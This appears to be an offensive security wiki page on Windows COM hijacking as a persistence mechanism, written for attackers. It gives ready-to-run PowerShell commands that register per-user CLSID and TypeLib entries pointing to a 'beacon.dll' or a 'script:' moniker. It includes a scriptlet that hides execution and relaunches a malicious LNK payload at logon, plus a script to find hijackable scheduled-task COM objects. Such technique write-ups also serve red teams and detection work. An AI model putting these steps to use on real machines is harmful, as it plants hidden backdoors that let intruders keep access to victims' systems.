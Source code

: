 # COM Hijacking

### Searching not existent COM components

As the values of HKCU can be modified by the users **COM Hijacking** could be used as a **persistent mechanisms**. Using `procmon` it's easy to find searched COM registries that doesn't exist that an attacker could create to persist. Filters:

- **RegOpenKey** operations.
- where the _Result_ is **NAME NOT FOUND**.
- and the _Path_ ends with **InprocServer32**.

Once you have decided which not existent COM to impersonate execute the following commands. _Be careful if you decide to impersonate a COM that is loaded every few seconds as that could be overkill._

```bash
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

### Hijackable Task Scheduler COM components

Windows Tasks use Custom Triggers to call COM objects and because they're executed through the Task Scheduler, it's easier to predict when they're gonna be triggered.

<pre class="language-powershell"><code class="lang-powershell"># Show COM CLSIDs
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      $usersSid = "S-1-5-32-545"
      $usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

      if ($Task.Principal.GroupId -eq $usersGroup)
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}

# Sample Output:
<strong># Task Name:  Example
</strong># Task Path:  \Microsoft\Windows\Example\
# CLSID:  {1936ED8A-BD93-3213-E325-F38D112938E1}
# [more like the previous one...]</code></pre>

Checking the output you can select one that is going to be executed **every time a user logs in** for example.

Now searching for the CLSID **{1936ED8A-BD93-3213-E325-F38D112938EF}** in **HKEY\CLASSES\ROOT\CLSID** and in HKLM and HKCU, you usually will find that the value doesn't exist in HKCU.

```bash
# Exists in HKCR\CLSID\
Get-ChildItem -Path "Registry::HKCR\CLSID\{1936ED8A-BD93-3213-E325-F38D112938EF}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\some.dll
               ThreadingModel : Both

# Exists in HKLM
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler

# Doesn't exist in HKCU
PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```

Then, you can just create the HKCU entry and everytime the user logs in, your backdoor will be fired.

---

## COM TypeLib Hijacking (script: moniker persistence)

Type Libraries (TypeLib) define COM interfaces and are loaded via `LoadTypeLib()`. When a COM server is instantiated, the OS may also load the associated TypeLib by consulting registry keys under `HKCR\TypeLib\{LIBID}`. If the TypeLib path is replaced with a **moniker**, e.g. `script:C:\...\evil.sct`, Windows will execute the scriptlet when the TypeLib is resolved – yielding a stealthy persistence that triggers when common components are touched.

This has been observed against the Microsoft Web Browser control (frequently loaded by Internet Explorer, apps embedding WebBrowser, and even `explorer.exe`).

### Steps (PowerShell)

1) Identify the TypeLib (LIBID) used by a high-frequency CLSID. Example CLSID often abused by malware chains: `{EAB22AC0-30C1-11CF-A7EB-0000C05BAE0B}` (Microsoft Web Browser).

```powershell
$clsid = '{EAB22AC0-30C1-11CF-A7EB-0000C05BAE0B}'
$libid = (Get-ItemProperty -Path "Registry::HKCR\\CLSID\\$clsid\\TypeLib").'(default)'
$ver   = (Get-ChildItem "Registry::HKCR\\TypeLib\\$libid" | Select-Object -First 1).PSChildName
"CLSID=$clsid  LIBID=$libid  VER=$ver"
```

2) Point the per-user TypeLib path to a local scriptlet using the `script:` moniker (no admin rights required):

```powershell
$dest = 'C:\\ProgramData\\Udate_Srv.sct'
New-Item -Path "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver\\0\\win32" -Force | Out-Null
Set-ItemProperty -Path "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver\\0\\win32" -Name '(default)' -Value "script:$dest"
```

3) Drop a minimal JScript `.sct` that relaunches your primary payload (e.g. a `.lnk` used by the initial chain):

```xml
<?xml version="1.0"?>
<scriptlet>
  <registration progid="UpdateSrv" classid="{F0001111-0000-0000-0000-0000F00D0001}" description="UpdateSrv"/>
  <script language="JScript">
    <![CDATA[
      try {
        var sh = new ActiveXObject('WScript.Shell');
        // Re-launch the malicious LNK for persistence
        var cmd = 'cmd.exe /K set X=1&"C:\\ProgramData\\NDA\\NDA.lnk"';
        sh.Run(cmd, 0, false);
      } catch(e) {}
    ]]>
  </script>
</scriptlet>
```

4) Triggering – opening IE, an application that embeds the WebBrowser control, or even routine Explorer activity will load the TypeLib and execute the scriptlet, re-arming your chain on logon/reboot.

Cleanup
```powershell
# Remove the per-user TypeLib hijack
Remove-Item -Recurse -Force "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver" 2>$null
# Delete the dropped scriptlet
Remove-Item -Force 'C:\\ProgramData\\Udate_Srv.sct' 2>$null
```

Notes
- You can apply the same logic to other high-frequency COM components; always resolve the real `LIBID` from `HKCR\CLSID\{CLSID}\TypeLib` first.
- On 64-bit systems you may also populate the `win64` subkey for 64-bit consumers.

## References

- [Hijack the TypeLib – New COM persistence technique (CICADA8)](https://cicada-8.medium.com/hijack-the-typelib-new-com-persistence-technique-32ae1d284661)
- [Check Point Research – ZipLine Campaign: A Sophisticated Phishing Attack Targeting US Companies](https://research.checkpoint.com/2025/zipline-phishing-campaign/)

